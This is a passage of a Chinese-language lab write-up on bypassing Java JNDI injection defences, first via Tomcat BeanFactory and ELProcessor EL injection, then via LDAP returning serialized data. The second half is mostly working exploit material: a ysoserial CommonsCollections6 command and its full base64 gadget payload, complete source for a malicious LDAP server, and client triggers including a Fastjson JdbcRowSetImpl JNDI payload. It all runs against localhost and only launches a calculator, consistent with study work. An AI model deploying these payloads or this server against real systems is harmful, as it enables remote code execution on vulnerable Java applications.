

所以我们**我们传入的 Factory 类必须实现 ObjectFactory 接口类而 `org.apache.naming.factory.BeanFactory` 正好满足**：




**然后这里会进入到`factory.getObjectFactoryFromReference()`方法，每个实现了ObjectFactory接口的factory类都有这个方法**



然后跟进之后这里会先判断obj参数是否是ResourceRef类的实例，是的话代码才会往下走，所以我们在恶意RMI服务端中构造Reference类实例的时候才**Reference 类的子类 ResourceRef 类**


这里经过一系列的赋值，然后执行loadClass()方法，获取到了bean类为`javax.el.ELProcessor` 



实例化`javax.el.ELProcessor` 类并获取其中的 `forceString` 类型的内容，其值是我们构造的 `x=eval` 内容：



这里get到forceString这个参数



继续往下调试可以看到，查找 `forceString` 的内容中是否存在”=”号，不存在的话就调用属性的默认 setter 方法

存在的话就取键值、其中键是属性名而对应的值是其指定的 setter 方法。

```
for(String param : value.split(",")) {        // 1. 按逗号分割
    param = param.trim();                      // 2. 去除空格
    int index = param.indexOf(61);             // 3. 找等号位置 (61 是 '=' 的 ASCII 码)
    String setterName;
    
    if (index >= 0) {                          // 4. 如果有等号
        setterName = param.substring(index + 1).trim();  // 等号后面的是 setter 方法名
        param = param.substring(0, index).trim();        // 等号前面的是属性名
    } else {                                   // 5. 如果没有等号
        setterName = "set" + param.substring(0, 1).toUpperCase(Locale.ENGLISH) 
                   + param.substring(1);       // 自动生成 setXxx 方法名
    }
    // ... 后续通过反射调用 setterName 方法
}
```

**这里之前设置的 `forceString` 的值就成功将 x 属性的 setter 方法转换为调用我们指定的 eval() 方法**

可以看到setterName已经变成eval了



之后，就是获取 beanClass 即 `javax.el.ELProcessor` 类的 eval() 方法并和 x 属性一同缓存到 forced 这个 HashMap 中：

然后下面有个while循环，遍历 JNDI 属性，跳过特殊属性，然后通过反射调用 `forceString` 映射的自定义方法（如 `eval`）来设置属性值，从而执行了恶意的 EL 表达式。



这里执行了ra.getContent方法来获取x属性对应的 contents ，也就是我们构造的恶意命令，这里就是恶意 RMI 服务端中 ResourceRef 类实例添加的第二个元素，然后invoke反射调用了bean类eval方法

然后步入到invoke方法里一路跟进

最后到了ELProcessor.eval(expression)中



成功并且成功弹出计算器执行

总结一下，这里用到了el表达式注入的一些基础，绕过原理就是绕过了 `trustURLCodebase` 的检测，因为这条路没有被 `trustURLCodebase` 的检测

---

### 绕过方法二 利用 LDAP 返回序列化数据，触发本地 Gadget

LDAP 服务端除了支持 JNDI Reference 这种利用方式外，还支持直接返回一个序列化的对象。如果 Java 对象的 javaSerializedData 属性值不为空，则客户端的 `obj.decodeObject()` 方法就会对这个字段的内容进行反序列化

此时如果客户端 ClassPath 中存在反序列化功能利用 Gadget 如CommonsCollections 库，那么就可以结合该 Gadget 实现反序列化漏洞攻击。

这也就是平常 JNDI 漏洞存在最多的形式，通过与其他链子结合

使用 ysoserial 工具生成 Commons-Collections 这条 Gadget 并进行 Base64 编码输出：

```
java -jar ysoserial.jar CommonsCollections6 'calc' | base64
```

输出

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg=
```

恶意 LDAP 服务器如下，在 javaSerializedData 字段内填入刚刚生成的反序列化 payload 数据

```
package org.mixbp;

import com.unboundid.util.Base64;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.text.ParseException;

public class JNDIGadgetServer {

    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main (String[] args) {

        String url = "http://127.0.0.1:8083/#ExportObject";
        int port = 1099;


        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;


        /**
         * */ public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        /**
         * {@inheritDoc}
         * * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */ @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }

        }


        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            // Payload1: 利用LDAP+Reference Factory  
//            e.addAttribute("javaCodeBase", cbstring);  
//            e.addAttribute("objectClass", "javaNamingReference");  
//            e.addAttribute("javaFactory", this.codebase.getRef());  

            // Payload2: 返回序列化Gadget
            try {
                e.addAttribute("javaSerializedData", Base64.decode("rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AARjYWxjdAAEZXhlY3VxAH4AGwAAAAFxAH4AIHNxAH4AD3NyABFqYXZhLmxhbmcuSW50ZWdlchLioKT3gYc4AgABSQAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAABc3IAEWphdmEudXRpbC5IYXNoTWFwBQfawcMWYNEDAAJGAApsb2FkRmFjdG9ySQAJdGhyZXNob2xkeHA/QAAAAAAAAHcIAAAAEAAAAAB4eHg="));
            } catch (ParseException exception) {
                exception.printStackTrace();
            }

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

**注意服务端的url是没用的，因为我们这里漏洞利用点主要是javaSerializedData字段触发反序列化**

所以url可以随便填

服务端，客户端都加上依赖

```
<dependency>  
 <groupId>com.alibaba</groupId>  
 <artifactId>fastjson</artifactId>  
 <version>1.2.24</version>  
</dependency>
<dependency>  
 <groupId>commons-collections</groupId>  
 <artifactId>commons-collections</artifactId>  
 <version>3.2.1</version>  
</dependency>
```

客户端代码，这里有两种触发方式，选一种就好了，这里 fastjson 还没学过，就用第一种的 lookup 注入。

```
package org.mixbp;

import com.alibaba.fastjson.JSON;

import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIGadgetClient {
    public static void main(String[] args) throws Exception {
        // lookup参数注入触发
        Context context = new InitialContext();
        context.lookup("ldap://localhost:1099/ExportObject");

        // Fastjson反序列化JNDI注入Gadget触发
//        String payload ="{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://127.0.0.1:1099/ExportObject\",\"autoCommit\":\"true\" }";
//        JSON.parse(payload);
    }
}
```

成功弹出计算器




